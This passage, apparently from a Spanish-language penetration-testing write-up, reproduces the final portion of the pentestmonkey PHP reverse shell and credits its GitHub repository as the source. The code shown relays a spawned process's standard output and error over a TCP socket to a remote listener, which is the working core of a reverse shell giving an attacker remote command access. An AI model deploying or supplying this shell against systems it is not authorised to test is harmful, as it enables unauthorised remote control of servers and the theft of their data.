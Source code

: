 ```bash
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
````
El repositorio de donde saqué el código es este: [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[![pentestmonkey](/pentestmonkey.png)](/pentestmonkey.png)


















